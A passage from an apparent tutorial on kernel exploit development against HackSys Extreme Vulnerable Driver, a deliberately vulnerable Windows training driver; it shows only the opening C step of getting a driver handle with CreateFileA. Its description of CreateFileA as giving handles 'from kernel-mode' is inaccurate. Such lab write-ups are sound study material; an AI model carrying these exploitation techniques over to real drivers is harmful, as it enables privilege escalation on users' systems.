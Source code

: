 ![TEXTO HOVER](/assets/kernel/buscandoIOCTL3b.png)



### Building the exploit

We build make our exploit in C language. Why C? because C is the Kernel language so for the sake of symmetry C is the chosen one :)

To select the specific driver we want is necessary to get its handler, and we can do that with the CreateFileA from kernel32.dll, a function that allows for handler distribution from kernel-mode.

```bash
HANDLE driverHandle;


    printf("[*]Opening handle to \\\\.\\HackSysExtremeVulnerableDriver\n");

    /*
        HANDLE WINAPI CreateFile(
          _In_     LPCTSTR               lpFileName,
          _In_     DWORD                 dwDesiredAccess,
          _In_     DWORD                 dwShareMode,
          _In_opt_ LPSECURITY_ATTRIBUTES lpSecurityAttributes,
          _In_     DWORD                 dwCreationDisposition,
          _In_     DWORD                 dwFlagsAndAttributes,
          _In_opt_ HANDLE                hTemplateFile
        );
    */
```